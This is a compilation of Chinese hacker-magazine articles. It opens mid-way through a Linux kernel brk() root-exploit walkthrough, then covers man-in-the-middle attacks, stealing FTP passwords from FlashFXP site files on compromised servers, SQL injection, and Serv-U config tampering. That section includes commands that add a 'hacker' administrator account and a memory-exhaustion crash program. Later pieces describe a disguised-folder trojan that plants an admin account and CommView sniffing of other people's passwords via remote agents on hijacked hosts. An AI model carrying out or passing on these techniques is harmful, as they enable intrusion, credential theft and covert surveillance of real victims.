    oldbrk = PAGE_ALIGN(mm->brk);
    if (oldbrk == newbrk)
        goto set_brk;
    /* Always allow shrinking brk */
    if (brk <= mm->brk) {
        if (do_munmap(mm, newbrk, oldbrk - newbrk))
            goto set_brk;
        goto out;
    }
    /* OK, looks good - let it rip */
    if (do_brk(oldbrk, newbrk - oldbrk) != oldbrk)
        goto out;
set_brk:
    mm->brk = brk;
out:
    retval = mm->brk;
    up_write(&mm->mmap_sem);
    return retval;
}
```

可以看出，两个差不多。但是 2.4.2 是调用 do_brk()，而 2.2.15 是 do_mmap() 函数。我们之前之所以说 2.2.15 不存在 brk 漏洞，是因为 do_brk() 和 do_mmap() 函数不一样，我们看看：

```c
do_brk(unsigned long addr, unsigned long len)
{
    struct mm_struct *mm = current->mm;
    struct vm_area_struct *vma, *prev;
    unsigned long flags;
    rb_node_t **rb_link, *rb_parent;

    len = PAGE_ALIGN(len);
    if (!len)
        return addr;

    /* mlock MCL_FUTURE? */
    if (mm->def_flags & VM_LOCKED) {
        unsigned long locked = mm->locked_vm << PAGE_SHIFT;
        locked += len;
        if (locked > current->rlim[RLIMIT_MEMLOCK].rlim_cur)
            return -EAGAIN;
    }

    /* Clear old maps... */
    vma = find_vma_prepare(mm, addr, &prev, &rb_link, &rb_parent);
    if (vma && vma->vm_start < addr + len) {
        if (do_munmap(mm, addr, len))
            return -ENOMEM;
        goto munmap_back;
    }

    /* Check against limits */
    if ((mm->total_vm << PAGE_SHIFT) + len > current->rlim[RLIMIT_AS].rlim_cur)
        return -ENOMEM;
    if (mm->map_count > max_map_count)
        return -ENOMEM;
    if (!vm_enough_memory(len >> PAGE_SHIFT))
        return -ENOMEM;

    flags = VM_DATA_DEFAULT_FLAGS | mm->def_flags;

    /* Can we just expand an old anonymous mapping? */
    if (rb_parent && vma_merge(mm, prev, rb_parent, addr, addr + len, flags))
        goto out;
}
```

```c
/* create a vma struct for an anonymous mapping */
vma = kmem_cache_alloc(vm_area_cachep, SLAB_KERNEL);
if (!vma)
    return -ENOMEM;

/* Build the RB tree corresponding to the VMA list */
void build_mmap_rb(struct mm_struct *mm)
{
    struct vm_area_struct *vma;
    rb_node_t **rb_link, *rb_parent;

    mm->mm_rb = RB_ROOT;
    rb_link = &mm->mm_rb.rb_node;
    rb_parent = NULL;
    for (vma = mm->mmap; vma; vma = vma->vm_next) {
        __vma_link_rb(mm, vma, rb_link, rb_parent);
        rb_parent = &vma->vm_rb;
        rb_link = &rb_parent->rb_right;
    }
}
```

我们会发现 do_mmap 函数有这么一句 `if (len > TASK_SIZE || addr > TASK_SIZE - len)`，而 do_brk 却没有，而且 do_mmap 函数的参数是 unsigned long，do_brk 却是 int 的，这还带来了如果参数是负数的问题。好，现在我们来看看攻击方法。

我是一个大懒人，exploit 就拿 lebmleilei 大哥的。这里我对大哥不多说，只是说明一下值得注意的 3 个关键地方。无论是 do_brk 还是 do_mmap，它们对新的区域的空间都必须是未经涉及过的，所以我们必须 unmap 掉栈的地址。因为栈是在 brk 之上的呀，所以我们必须把 esp 指向一个在 brk 之下的堆的地址，再将栈 unmap 掉，这样 do_brk 和 do_mmap 就不会出错。其次按 lebmleilei 大哥的方法，我们必须用 mprotect() 使普通用户能够访问 kernel 的空间，最后就是修改 ldt 表使我们的自定义函数在内核状态下运行，这样就能够写内存空间了。有的朋友问，写内存空间有什么用？当然是改掉 uid、gid 这些值了，因为把 uid 改成 0 我们就是 root 了呀！这里寻找 ldt 和 uid 的部分代码里面都有，我不多说了。因为本文是面向初学者的，可能有些菜鸟看了之后会一下子接受不了，不过没关系，对 Linux 感兴趣才是最关键的，以后学习 Linux 再回头来看，就可以慢慢消化了。这个漏洞说到这里，也完了。怎么样，很简单吧。其实 Linux 也十分容易，连 11 岁的小学生都会用（这是真的，或许读者看到这里会有些心寒，但事实如此，我们要更加努力哦！）。写了这么多，我也该休息了。

> （本文涉及到的溢出代码 brkexp.c 光盘有收录）


# 小白

作为骇客常用的攻击手段之一，中间人攻击（Man-in-the-Middle）具有构思巧妙、费力少而收效大的特点，因而成为恶意攻击者所青睐的手段。本文将从多个层面，讲述中间人攻击的原理和特点，并提出一些防范中间人攻击的方法，希望读者朋友能了解到更多的网络攻击技术原理，加强自身的网络安全防范。


Internet 开放的结构，导致网络安全问题层出不穷。由于大量使用以太网、共享传输介质等，使得窃听、篡改、假冒成为可能。这里我们先介绍几种网络最不安全的情形，其中当然包括中间人攻击。

- 1. **网络窃听**  
  图 1 说明了窃听网络的情形，A 和 B 之间的通信内容有可能被 T 获得。T 根据所获得的信息，再做进一步行动。

- 2. **信息篡改**  
  图 2 中，T 变得更为主动，不仅窃听了 A 和 B 的通信内容，还对内容进行了改动。

- 3. **中间人攻击**  
  图 3 则是中间人攻击的常见模式。A 和 B 希望相互通信，但是遗憾的是，T 在 A 和 B 之间，并且 A 和 B 都不知道。于是，T 一方面冒充 B 与 A 会话，另一方面又冒充 A 与 B 会话，成为名副其实的“中间人”。

# 二、中间人攻击案例剖析

中间人攻击模型存在于网络各个层面上。我们现在就来举两个实际的例子，看看骇客是如何具体利用中间人攻击技术的。

## 域名解析也会错——中间人攻击手段 DNS 劫持介绍

域名解析，是指将域名（例如 www.主机.com）变换为 IP 地址（例如将 www.主机.com 变换为 IP 地址 192.168.0.1）的服务。

局域网内的域名解析服务，一般是由一台或者多台服务器来做。用户要浏览网站的时候，就要敲入域名，让这些服务器来解析。狡猾的骇客会将用户与这些域名服务器隔离开来，成为中间人。

接下来发生什么事情呢？我们假设用户 A 要去自己的银行网站 B 做一笔交易。当 A 向浏览器发出命令 www.银行.com 的时候，由于浏览器只知道域名，而不知道 IP 地址，就必须依赖域名服务。这个时候，骇客将这些域名服务信息锁住，不让这些信息到达域名服务器。然后黑客返回虚假的 IP 地址给用户，最简单的就是返回骇客自己的主机（或者他所控制下的）。巧妙的是，所返回的这个主机上，恰好也有一个主页，样子还跟 www.银行.com 一模一样。用户完全以为自己登录上了银行主页，输入自己的卡号密码之后，发现出错了。

而当用户发现错误重试的时候，骇客并不阻断用户和域名服务器之间的通信，用户现在发现一切正常了。然而这时候已经晚了，骇客已经取得了他所想要的东西。

我们可以看出，上述攻击过程中，骇客并不需要花费大力气去对付戒备森严的域名服务器，而只需要将用户和域名服务器隔离开来，阻断用户所有的 DNS 请求信息。这样，好像是“抢走了”用户所有的 DNS 信息，因此又叫做“DNS 劫持”。

## 三、加密系统安全了吗

## 密码学与中间人攻击

中间人攻击的另一个鲜明的例子，会使密码技术大伤脑筋。在安全要求比较高的地方，数据传输一般需要加密和解密。加密和解密是利用一对密钥来完成的。一般说来，发送者利用接收者的公开密钥进行加密；接收者用自己的私有密钥就可以解开。

通常情况下，A 向 B 发送加密信息，即使 T 窃听到信息内容，由于不知道 B 的私有密钥，也就无法理解信息内容。但是，如果 T 是一个“中间人”，情况就不一样了。T 告诉 A 他的公开密钥，并且谎称自己是 B。于是 A 就用了 T 的公开密钥来加密，传过来的时候，T 就能解开了。

这时候，T 理解了信息内容以后，再谎称自己是 A，并且把自己的公开密钥告诉 B。同理，B 发送给 A 的信息也被 T 所截获，并且能解密。A 和 B 完全不知道，他们的通信过程中，T 是“中间人”！


# 四、如何防范中间人攻击

- 1. 我们不难看出，中间人攻击的一个先决条件是，黑客作为中间人，要有阻断网络的能力。不管是劫持也好，假冒也罢，需要通信的双方实际上是没有真正地取得联系的。如果没有阻断网络的能力，中间人攻击是不可能实现的。

- 2. 其次，作为主动防范的办法，身份认证技术可以防止中间人攻击。假设 T 要向 A 谎称自己是 B，则 A 会告诉 T：“给我一个你是 B 的证据”（身份认证）。此时，由于 T 不具有 B 的特有属性，假冒 B 的行为宣告失败。银行、政府、商业网站等，在身份认证上所做的工作尤为重要。

作为个人用户，要防范中间人攻击，一定要做到“不访问不可信赖的网络资源”。例如网吧上网，由于我们无法信赖网吧中的安全（当我们登录到我们的个人银行时，我们真正登录的是银行吗？），所以一定不要做这种需要相当安全环境的事情。

# 黑客研究院

# FlashFXP 的另类用法

## 应用 FlashFXP 来提升权限

最近各位一定得到不少肉鸡吧？从前段时间的动网的 upfile 漏洞、动力文章系统最新漏洞到 first see 发现的动网 SQL 版本的一个超级大漏洞，有人一定忙得不亦乐乎。大家的方法也不过是使用 ASP 脚本的后门罢了。至于提升权限的问题，呵呵，很少有人能够一口气完成。关键还是在提升权限上这个问题上，不少服务器设置得很 BT，你的 ASP 木马可能都用不了，哪里来的提升啊？我们得到 webshell 也就是低级别用户的权限，各种提升权限方法可谓是五花八门，如何提升就看你自己的妙招了。

其一，如果服务器上装了 pcAnywhere 服务端，虽然方便了管理员的管理，但同时也给了我们方便。到系统盘的 Documents and Settings/All Users/Application Data/Symantec/pcAnywhere/ 中下载 .cif，在本地破解，再使用 pcAnywhere 连接，就 OK 了。其二，如果对方有 Serv-U，通过修改 ServUDaemon.ini 和 fpipe 这软件提升权限应该不是问题吧。其三，通过替换系统服务来提升。其四，查找 conn 和 config 类型的文件看能否得到 sa 或者 MySQL 的相关密码，可能也会有所收获等等。

本人在一次入侵过程中发现了这个方法，使用 FlashFXP 也能提升权限，但是成功率高不高就看你自己的运气了 :) 我在 www.xxx.com 通过 bbs 得到了一个 webshell，放了个小马……突然想起我将一个页面插入了 ASP 的后门，看看还有没有希望了？输入“www.xxx.com/xx.asp?id=1”还在！


图1

于是上传了一个 ASP 的后门，怎么提升权限呢？在这个网站的主机上游荡了 N 分钟，在 C:\Program Files 下发现了 FlashFXP 文件夹，如图2，于是就打开了 Sites.dat 这个文件（可编辑了，而且密码是加了密的）。如果我把这些文件 copy 回本地也就是我的计算机中，替换我本地的相应文件会怎么样呢？于是我将 Sites.dat、Sites.dat.bak、Stats.dat、Stats.dat.bak 几个文件下载到我的计算机中，替换了我电脑中 FlashFXP 文件夹的相应文件。

打开站点管理器一看，发财了！对方管理员通过 FlashFXP 连接的各个站点都在（图3），点击连接。通过了，于是我们又有了一堆肉鸡，我们有 FTP 权限，上传脚本木马。呵呵！


图2


图3

说了半天这提升权限的事儿一点没讲啊？不要着急，大家看看对方管理员的这个站点管理器，有用户名和密码，密码是星号的。可惜啊！又想起了在 Sites.dat 中也显示了密码和用户名，而且密码是加密的，现在的星号密码会不会也是加了密的？看看就行了呗。

怎么看？菜鸟了吧！手头有个不错的查看星号的软件，就是 XP 星号密码查看器，通过查看跟 Sites.dat 中加密了密码做比较，看图4和图5的比较，很显然在站点管理器中查看到的密码是明文显示的，发财了吧！下一步就是使用 XP 星号密码查看器这个软件来提取密码和用户名。看着这些复杂的密码，还真有点怀念当年玩 sniff 的时光，呵呵。

```
密码：`a69ukq6 hvyda790 s584b fv4 e? 98c93k4`

用户名：`bn7865t ...`
```


（上注部分密码和用户名已经作了必要的修改）这么多的信息，按社会工程学的概念来说，没有管理员的密码，打死我也不相信。最终我得到了这个网站管理员的密码，当然是从上边那堆东西中找到的。我想这个问题应该反馈到 FlashFXP 官方，让他们在下个版本中修正这个漏洞或者说是错误。经过后来的测试，只要把含有密码和用户名的 Sites.dat 文件替换到本地相应文件，就可以在本地还原对方管理员的各个站点密码……

# CTB 1.73 不算漏洞的漏洞

本人有一 CTB 论坛……由于 CTB 论坛不用数据库支持，只需要空间支持 PHP 就可以了……某日登录后台时发现密码错误，随后在邮箱中发现来自论坛系统的自动通知，内容类似“您的新密码是 xxxxxx，请妥善保管”……最后发现“取回密码”功能流程存在可被利用的问题。

由于水平有限，我开始没有找到答案……又过了几天终于被解开。问题并非直接猜解密码，而是通过找回密码机制触发系统发送新密码邮件，从而造成账号风险。


此简单流程只需填写登录 ID 和昵称（通常相同）即可。填写后会跳转提示页，并发送一封新的密码确认信。经测试，部分论坛也存在类似并不严格的找回密码漏洞。

# SQL 注入快速抓取数据库

近年来，B/S 模式应用开发流行，即使网络基础一般也可利用 IIS、Apache 搭建网站。由于开发经验与规范不足，常忽略对用户输入合法性的判断，导致程序存在安全隐患，给攻击者可乘之机，这就是 SQL 注入（SQL Injection）技术产生的重要前提。

本文不是系统讲解 SQL 注入原理，也不是讨论“若干注入技巧”，而是从入门者角度，结合实战经验，说明针对 MS SQL Server 环境进行注入时的快速信息获取思路。并以常见 ASP+ACCESS 站点源码场景引入示例。


数字型参数，现在试试该站点是否存在注入漏洞，在请求后面分别加上“and 1=1”和“and 1=2”，回车，如图2、图3所示。


显然，对方很可能存在注入漏洞。可惜的是，这里使用的数据库为 ACCESS，因为如果是连接的 ACCESS 的话，是不能获得对方系统权限的。看来只有尝试后台数据库为 SQL Server 的网站了，但是这样的站点源码很难找。莫非要自己编写一个连接 SQL Server 站点？这不现实。难道那么多通过注入来执行对方系统指令的语句都无法测试了吗？看来只有华山一条路：转换数据库。也就是说，如果你现在手中只有 ASP+ACCESS 的站点代码的话，可以通过将 ACCESS 数据库转换为 SQL Server 数据库，并且改写网站的数据库连接代码即可。具体步骤如下：

## 三、数据库的转化

首先，找到网站使用的 ACCESS 数据库，这里是 info.mdb，打开该数据库，里面共有 3 张表，如图4。这 3 张表分别记录了管理员账号/密码、发布信息的种类及内容。下面就将该数据库转换为 SQL Server 数据库。

## 数据库转换为 SQL Server 数据库


打开 MSSQL Server 企业管理器，选中某一实例，你将要转换之后的数据库就放在该实例里。为了便于后面的注入测试，最好选择使用 SA 用户的实例，这里是 SCU-D79025B6F92\DANG0102。然后打开“工具”→“数据库转换服务”→“导入数据”，如图5。


在弹出的“DTS 导入/导出向导”中单击“下一步”，如图6。


在“数据源”一项中选择“Microsoft Access”，弹出如图7的对话框。


在“文件名”中选择待转换的 ACCESS 数据库 info.mdb，用户名和密码都为空，然后单击“下一步”，如图8。目的数据库也取名为 info（也可以采用其他名字），单击下一步，如图9。保持默认选项，单击“下一步”，如图10。


将待转换的表全部选上，单击“下一步”，如图11。


选择“立即运行”，然后单击“下一步”，开始转换，转换完成如图12。


此时在实例 SCU-D79025B6F92\DANG0102 中已经有转换后的数据库 info 了，如图13。


打开右边视图中的“表”，可以看到生成了 3 个同名表，如图14。


图14

每张表的内容也是和 ACCESS 中表的内容一致，也就是说，数据库转化成功！

## 三、重新连接新的数据库

数据库转化成功后，就轮到重新连接数据库了，打开网站源码中负责连接数据库的 conn.asp，可以看到其中的连接代码，如图15。

```asp
<%
' ... conn.asp 原连接代码（Access） ...
Set conn = Server.CreateObject("ADODB.Connection")
conn.open connstr
%>
```

图15

修改这部分代码，改为连接 SQL Server 数据库，如图16。

```asp
<%
dim conn,connstr
Set conn = Server.CreateObject("ADODB.Connection")
connstr = "Provider=sqloledb;User ID=sa;Password=sa;Initial Catalog=Info_Data;Source=SCD-..."
conn.open connstr
%>
```

图16

保存后，在 IIS 中对该站点进行相关设置，这里就不再多讲了。修改完毕后，马上测试，首先看能否打开网页，在浏览器中输入请求，回车，如图17。


图17

好！没问题。检验是否存在注入漏洞，在请求后面加上“and user>0”，回车，如图18。


图18

这样的错误提示相信大家再熟悉不过了，接下来可以做的事情很多，比如利用 SQL Server 的扩展存储过程执行系统指令，获取数据库内容等等，就留给聪明的你慢慢去尝试啦！

## 四、小结

本文主要介绍了在初学 SQL 注入时，找不到连接 SQL Server 的情况下，如何修改网站代码以及数据库的转换过程。我的主要目的就是希望大家在学习的过程中思维灵活一些，这样才能得到更快的提高。

# Serv-U 的终极利用——直接修改配置文件篇

浪迹天

最近研究 Serv-U 上了瘾，看到大家都说了好多的 Serv-U 的利用技巧，其中主要集中在两个方面的利用上。一是把目标机子的 Serv-U 的配置文件 ServUDaemon.ini 下载到本地覆盖掉本机的 Serv-U 的配置文件 ServUDaemon.ini，启动本地的 SERV-U 后再修改或者添加新的用户，再用本地修改过的 ServUDaemon.ini 覆盖掉目标主机的 ServUDaemon.ini，等到目标主机重新启动后就自动按照 ServUDaemon.ini 里的配置加用户，并且有着你设置的权限和密码，你就可以利用自己加的用户来登录目标主机的 SERV-U，如果权限够的话还可以直接添加管理员帐号。

第二种方法就是远程或者本地溢出了，具体怎么操作大家自己找找以前的杂志都有介绍，我也就不多说了。还有就是建立隐藏帐号或者克隆目标主机的帐号留自己用，怎么操作杂志上也有介绍，我也不再赘述了，大家还可以参考“六根山人”提供的一种方法，也很简单快捷。大家也可以去找找看，如果你有什么不懂的可以去论坛问我。

笔者在以前利用的时候就觉得很奇怪，就拿那个下载配置文件 ServUDaemon.ini 修改用户再上传的利用，我就觉得这里肯定有猫腻，难道这个配置文件这么神气，那它里面的参数到底是什么意思呢？可以不下载目标主机的 ServUDaemon.ini，而是直接修改吗？自己下载了 SERV-U 装上研究，再找点资料，终于搞明白了是怎么回事，现在写出来和大家分享。

## 一、本地研究过程——让一切变得简单

装上 SERV-U，先不添加用户，我们来看看它的配置文件 ServUDaemon.ini，用记事本打开看到图1。它的参数和具体代表的意思我在下面已经标出。大家对照着看都可以看懂。

```ini
[GLOBAL]
Version=5.2.0.1
ProcessID=1540
[Domain1]
DomainIP=127.0.0.1|21|test|1|0|0
...
```

```ini
[GLOBAL]
Version=5.2.0.1
ProcessID=1540
[DOMAINS]
Domain1=127.0.0.1||21|test|1|0|0
[Domain1]
```

对照我的注释，可以看到我配置的 SERV-U 的版本是 5.2.0.1，进程号是 1540，IP 地址是 127.0.0.1，域名 test，端口号 21。

好了，加一个用户 test1，密码 123456。设置根目录并配置权限后，再看配置文件 ServUDaemon.ini 的内容，如图3。


图2

```ini
[GLOBAL]
Version=5.2.0.1
ProcessID=1540
[DOMAINS]
Domain1=127.0.0.1||21|test|1|0|0
[Domain1]
User1=test1|1|0
[USER=test1|1]
Password=...
HomeDir=...
RelPaths=1
TimeOut=600
Access1=...
SKEYValues=
```

图3

看到配置文件多了下面的内容：我加了注释在后面，大家对照着看。

```ini
User1=test1|1|0  // 用户名
[USER=test1|1]
Password=...    // 密码（MD5）
HomeDir=...     // 根目录
RelPaths=1      // 是否锁定在用户目录
TimeOut=600     // 登录延迟时间
Access1=...     // 用户权限
SKEYValues=
```

R 代表读权限，W 代表写权限，A 代表添加权限，M 代表删除文件权限，E 代表执行权限，L 代表列举文件权限，C 代表目录创建权限，D 代表删除目录权限。

大家对照我说的可以看到我添加的用户权限，再添加一个用户 test2，密码 123456。再给他设置权限如图4，并去看看配置文件 ServUDaemon.ini 的改变，如图5。


图4

```ini
[GLOBAL]
Version=5.2.0.1
...
User1=test1|1|0
User2=test2|1|0
[USER=test1|1]
...
[USER=test2|1]
Password=...
HomeDir=C:\
RelPaths=1
TimeOut=600
Access1=C:\|RLP
SKEYValues=
```

图5

```ini
User2=test2|1|0

[USER=test2|1]
Password=...
HomeDir=C:\
RelPaths=1
TimeOut=600
Access1=C:\|RLP
SKEYValues=
```

大家对照我上面说的再看看是不是满足我说的那些参数的意义。我们总结它变化的地方是上面多了一行 User2=test2|1|0，下面接着原来的用户信息后再加上 test2 的一些基本情况。

好了，知道了改变的地方，我们就可以直接修改 ServUDaemon.ini 的内容来添加用户了。复制 test1 的基本信息到 test2 的后面，并改用户名为 test3，再在上面加上 User3=test3|1|0，如图6。保存后重启 SERV-U，看到自动添加一个用户 test3，看着它的权限，如图7。

来看看 test3 的帐号是否添加成功，打开 CMD 连接 SERV-U，如图8。输入用户名 test3，因为 test3 的密码散列是 test1 的，而 test1 的密码是 123456，那么这里 test3 的密码也就是 123456 了，我们已经成功进入。


图6

## 二、远程利用思路分析

在这里我不打算再结合实际的例子来说这个主题了，一是截图太占版面，二来我也觉得没有这个必要用例子来说明。先通过 SQL 或其他办法拿到站点 WebShell，在权限受限情况下可直接修改 Serv-U 配置文件 ServUDaemon.ini，复制高权限用户信息并替换用户名与密码哈希，保存后等待服务重启即可登录。

若不想等待服务自然重启，可通过消耗内存等方式促使主机重启，例如编写 ASP/PHP 或小程序不断分配内存。

```c
#include <stdio.h>
main()
{
    for(;;)
        malloc(...);
}
```

程序很简单，用 FOR 死循环不断分配内存导致当机。重启后登录并添加管理员账户。最后强调应及时修补网站漏洞、升级 Serv-U 版本并做好防护。


图7


图8

来看看权限多大，加入用户并提升为管理员，可执行下面命令：

```bash
quote site exec net.exe user hacker 123 /add
quote site exec net.exe localgroup administrators hacker /add
```

如图9，命令可成功执行，完成主机管理员账号添加。


图9


# 伪装欺骗利用高手——目录欺骗工具

浪迹天

前几天在 WEBSHELL 中练习提升权限的时候，非常顺利。好多网站管理员的设置都不行啊！我总是可以轻松地拿到管理员权限，在自己高兴的同时，也为国内的网站管理员捏了一把汗。照这样的安全配置，真的不敢想象！随便黑了他的主页是很简单的事情了。幸亏碰到的是我，还好我没有做坏事，我把那些漏洞的利用方法都和那些管理员说了，他们好感动呢。还是做善事好啊！

不过也遇到几个管理员的设置让我很是头痛，用了所有办法都不见效，最后只有去找新的办法。也记不得在哪里看到了这个伪装欺骗加利用的高手——目录欺骗工具。

发现跟程序同名的目录则建立一个跟程序文件名一样的目录，同时删除自身。这样你再打开这个文件夹时，看着就是个空文件夹，什么异常都没有，呵呵！同时，将在同一目录下的 `_notes.exe`（这个文件为你要运行的其它后门程序，把你用的后门或者木马改成这个名字 `_notes.exe`，属性请设为隐藏）移动到 Windows 目录，并运行。当然，如果没有 `_notes.exe` 这个文件也没关系，程序会忽略过去，不提示错误。这样的话，管理员双击这个东西的时候就把程序运行了，同时添加一个管理员账户！


好了，到这里我们就介绍完了，再总结下吧！本程序使用的前提是：

- 伪装过文件夹改名字，要运行的木马或者后门传到服务器上。记得先要有服务器是 Win2000 还是 WinXP 的信息，不然传错了，要是不好使了别抱怨。
- 让管理员点击。
- 文件扩展名为不显示，或者显示时看不出是个文件夹，但实际上是 exe 的后缀名。

来看这个工具，为了与图标系统的目录图标一致，作者做了两个程序，一个是 Win2000 下使用的，另一个是 XP 和 2003 下使用的，如图 1。


那个 Win2000 就是在 Win2000 下用的，WinXP 就是在 XP 下用的。那个说明就是说明文件！大家看图 1，看不出什么异样吧！和一个普通文件夹没有什么区别吧！其实那是伪装的可执行程序。但是不注意的话，以为是什么新的文件夹，双击打开的话程序就会运行。运行后会在机子上新建一个管理员：IWAM-IUSR，密码为：gxgl.com+2004（这些是程序默认的，好像不可以改）。运行后如未发现跟程序同名的目录，则建立一个跟程序文件名一样的目录，同时删除自身。

好的，说了这么多，我们来试下到底可不可以。我的是 XP 的机子，那我们就用这个 winxp 来演示吧！因为是演示嘛，为了大家可以看到结果，我用个运行后能看得见的程序吧！好的，把我的 MS04-011 的扫描工具 DSScan.exe 改为隐藏属性并改名为 `_notes.exe`，和 winxp 放在同一个目录下，如图 2。


好了，我们接着做，双击文件夹看看有什么反应没有。大家看图 3 和图 4，看到了吗？`_notes.exe`（改了名字的 DSScan.exe）运行了，用户也成功添加。因为我的机子上没有 winxp 这个文件，所以就建立一个新的 winxp 文件夹，而且是空的，没有任何破绽！

这个方法主要是用在你提升权限不成功时的另外一个途径罢了。至于大家用来运行什么样的后门或者木马，就随大家的喜好了。写到这里，笔者想起来了，我们还可以把这个文件和主机的一个应用程序绑定在一起，比如绑定他的 QQ.exe 上，这样 QQ 运行的时候也就把伪装欺骗的程序运行了。在加账号的同时后门程序也运行了，一举两得！还能怎么用？大家发挥自己的想象吧！我就不多说了，要是有什么好的利用方法，记得去论坛分享。马上就要过春节了，最后祝大家新年快乐，多多发财！

# 浅析 CommView
# 发掘本地和远程密码奥秘

陈汝莎

随着入侵技术的娴熟，越来越多的朋友已经不再满足入侵服务器后拿到管理员权限就结束了。很多朋友都会想到用服务器做跳板，再入侵其他服务器。也有朋友会继续渗透到内网，扩大战果。今天入侵了隔壁公司的网关，内网有 50 多台电脑，数据全部从网关进出。我对他公司内部的电脑没什么兴趣，但对经过网关的数据倒产生了浓厚的兴趣。于是装了个嗅探器（CommView），才刚运行，一大堆密码信息就展现在眼前，有邮箱密码、论坛会员密码，甚至雅虎通的密码等等。玩了一会，觉得这样拦截密码太不安全了，也不方便，于是想到 CommView 的远程嗅探功能。CommView 真的是太好了，为我们考虑得真周到。下面就来说说这次的本地和远程嗅探之旅。

CommView，很多朋友对它应该很熟悉了吧。网上嗅探器（Sniffer）工具很多，但 CommView 绝对算得上出类拔萃。首先是对 Dial-up 的 Adapter 的支持，还有就是特有的远程嗅探功能，加上操作界面人性化，设置简单。种种优点，绝对让你爱不释手。


图2

规则设置处又分为“Advanced Rules”高级规则设置和“Simple Rules”简单规则设置。细心的朋友会发现作者竟然把单词“Advanced”拼成“Advancde”，题外话。高级规则设置我们基本用不到，在这里我就不做过多说明。如果朋友对高级规则设置感兴趣的话，可以参考 COMMVIEW 的帮助文件。此时很多朋友在想，笔者是不是会像往常一样把简单规则设置逐一说明一遍，过过场，然后就结束。我想今天尝试一下打破以往常规，我们直接用实例说话，而不是把设置规则逐一说明一遍。我想英语好点的朋友这都会。说到实例，我想黑客最感兴趣的莫过于密码，80% 的朋友装嗅探器就是冲着它来的。根据大多数人的需求，我们今天就来说说用 COMMVIEW 捕获密码的实例。

## 一、本地嗅探

CommView 的安装我就不多说了，笔者安装的是最新版本 5.0。安装完成后运行程序，你会发现界面相对 5.0 以前的版本来说改进了很多，更人性化，也更可爱多了，如图 1 所示。


图1

这时候只要选好要嗅探的网卡，点击开始按钮，我们的本地嗅探就开始了。但你同时会发现“Packets”捕获包状态栏疯狂地运转着。不要奇怪，因为 COMMVIEW 正把所有经过的数据包全部原封不动地记录下了。这时我想你会和我一样马上按下暂停按钮。有什么好方法能让我们捕获到的数据更精确些呢？很简单，我们可以设置捕获规则，让 COMMVIEW 捕获我们需要的数据包。COMMVIEW 的规则设置很简单，完全图形化，不像其它嗅探器的规则设置那样，不是输命令就是写配置文件，这也正是笔者多年来对它情有独钟的原因。点击主界面正中的“Rules”菜单，进入 COMMVIEW 的捕获规则设置，如图 2 所示。

## 1、FTP 密码截取

如果你了解 FTP 协议，对 FTP 密码的捕捉就不难了。首先 FTP 使用的是 TCP 协议，因此我们在“Simple Rules”简单规则设置的子菜单“Protocols”协议设置处选择捕获的 IP 协议为 TCP 协议，如图 3 所示。


图3

随便说说另外两处设置：“Enable ethernet protocol rules”以太网协议设置和“Enable direction rules”数据包流向设置。由于 FTP 使用的是端口 21，因此我们来到“Ports”端口设置子菜单。端口输入 21，“Both”表示进出 21 端口的数据包都捕获。“Action”处如果勾选“Ignore”则表示忽略我们指定的端口，如图 4 所示。


接着下一步来到“Text”文本设置子菜单，在这里设置我们要捕获数据包里包括的关键字。只要嗅探到的数据包中包含我们指定的关键字，就会捕获记录下来。大家都知道 FTP 的登录信息数据包中带有“user”和“pass”等关键字，这正是我们要指定的。要想捕获到少而精的关键数据包，这步很重要，设置如图 5。


再来到最后的“TCP Flags”TCP 标志位设置。TCP 共有六位标志位，分别是：URG、ACK、PSH、RST、SYN 和 FIN。FTP 采用了其中的 ACK 和 PSH，ACK：确认标志，PSH：推……所以我们这里有必要选上它们，如图 6 所示。


到这里我们的设置已经基本完成了，点击运行按钮，等着收密码吧，如图 7 所示。选取第一个数据包，单击右键，选“Reconstruct TCP Session”，就可看见密码和用户名。

看到我加黑的前面那段吗？`&username=alex99999&password=03988518` 就是我们捕获到的笔者 163 信箱的登录密码。希望你也能看到奇迹。

### 2、Pop3 密码截取

前面我们已经学会如何捕获 Telnet 密码，顺理成章我们就应该马上联想到如何捕获 Pop3 的密码。很简单，我们只要修改一下捕获数据匹配的端口就 OK 了，在前面的基础上把 FTP 21 端口改成 Pop3 服务的 110 端口，捕获结果如图 8 所示。

## 3、HTTP 密码截取

HTTP 密码，这应该是所有密码中诱惑性最强的。因为 HTTP 密码的内容最丰富、种类最多，如论坛登录密码、邮箱登录密码、网站会员密码等，而且还经常给大家来点惊喜。……同样和捕获 FTP 密码类似，我们只要把“Port”处的 FTP 服务 21 端口改成 HTTP 服务 80 端口，接着就等着收密码吧，捕获结果如图 9。

## 4、SMTP 邮件内容截取

如果你的服务器装有 SMTP 服务，或是你本地安装了 OUTLOOK 或 FOXMAIL 等邮件接收器，我们就可以用 COMMVIEW 来捕获邮件内容。可别把这招用在你女朋友身上。SMTP 服务使用 25 端口，所以在“Port”里设置捕获端口为 25。接着就等着帮别人收信吧，如图 10 所示。


在测试的时候我没办法捕获到 SMTP 的登录密码，我只测试了 163 的 SMTP 服务器，大概原因是 163 的 SMTP 服务器的安全认证吧。如果大家测试其它 SMTP 服务器可以捕获到密码的话，请告知。还要说明的是，捕获到的邮件内容是 base64 编码，你可以把它保存，在本地导入 OUTLOOK 或 FOXMAIL 等邮件接收器打开。好了，我们的本地嗅探就写到这里。

## 二、远程嗅探

远程嗅探，这应该是 COMMVIEW 最有特色的功能。第一次测试的时候就爱上了它，真的是太经典太实用了。想想你在进入肉鸡后想嗅探服务器的密码信息，一般情况下我们会登录终端、安装和运行嗅探器，然后挂着，等着收密码。你不觉得这样太明目张胆且不安全吗？而且不方便。有了 COMMVIEW 的远程嗅探功能，我们就能在本地随时随意捕获远程的密码，既安全又方便。

远程嗅探，单单一个 COMMVIEW 是完成不了的，我们需要在嗅探目标主机上安装 COMMVIEW 的远程嗅探插件：“CommView Remote Agent”。翻译成中文就是 CommView 远程代理。CommView Remote Agent 的安装我就不多说了，不过要先说明的是，2.0 以前的版本不支持远程终端安装，只有最新的 2.0 版本才支持终端安装。CommView Remote Agent 安装完后，会提示输入远程连接的端口和密码，默认端口为 5050，可以设置你自己习惯的密码，如图 11 所示。完成之后注销退出肉鸡吧。

现在我们本地打开 COMMVIEW，远程连接已经安装了“CommView Remote Agent”的肉鸡。单击主菜单上的“FILE”，选择里面的“Remote monitoring mode”，会出现“Remote Agent Connection”连接远程代理的对话框。输入我们安装有“CommView Remote Agent”肉鸡的 IP 和我们设置的密码，点击左上角的“Connect”按钮，这样 COMMVIEW 就连上远程嗅探代理，如图 12 所示。


